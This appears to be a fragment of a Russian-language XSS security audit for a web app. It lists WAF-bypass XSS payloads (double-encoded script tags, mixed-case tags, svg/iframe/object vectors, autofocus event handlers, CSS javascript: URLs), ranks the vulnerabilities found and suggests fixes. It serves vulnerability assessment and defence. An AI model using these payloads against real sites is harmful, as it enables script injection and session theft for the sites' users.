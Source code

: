 ### Bypass WAF:
```javascript
// Double encoding
%253Cscript%253Ealert(%2522HACKED%2522)%253C/script%253E

// Mixed case
<ScRiPt>alert('HACKED')</ScRiPt>

// Alternative tags
<svg onload=alert('HACKED')>
<iframe srcdoc="<script>alert('HACKED')</script>">
<object data="javascript:alert('HACKED')">

// Event handlers
<input onfocus=alert('HACKED') autofocus>
<select onfocus=alert('HACKED') autofocus><option>AKUMA</option>

// Via CSS
<link rel=stylesheet href="javascript:alert('HACKED')">
<style>@import'javascript:alert("HACKED")';</style>
```

---

## 📊 Приоритизация уязвимостей

### 🔴 КРИТИЧНЫЕ (исправлять НЕМЕДЛЕННО):
1. **DOM XSS в BellNotification.tsx** - любой пользователь может выполнить JS
2. **Stored XSS в базе данных** - код выполняется у всех пользователей
3. **Reflected XSS через req.ip** - можно украсть сессии

### 🟡 ВАЖНЫЕ (исправлять в ближайшие дни):
1. **dangerouslySetInnerHTML** - потенциальная угроза при неправильном использовании
2. **DeepLink XSS** - ограниченные векторы атак

---

## 🛡️ Рекомендации по исправлению

### Для DOM XSS:
```javascript
// ПЛОХО:
url: `${window.location.origin}${route}`,

// ХОРОШО:
const sanitizedOrigin = window.location.origin.replace(/[^a-zA-Z0-9:\/\.-]/g, '');
url: `${sanitizedOrigin}${route}`,

// ИЛИ используй белый список доменов:
const allowedOrigins = ['https://perekrestok.ru', 'https://5ka.ru'];
const origin = allowedOrigins.includes(window.location.origin) ? 
  window.location.origin : 'https://perekrestok.ru';
```
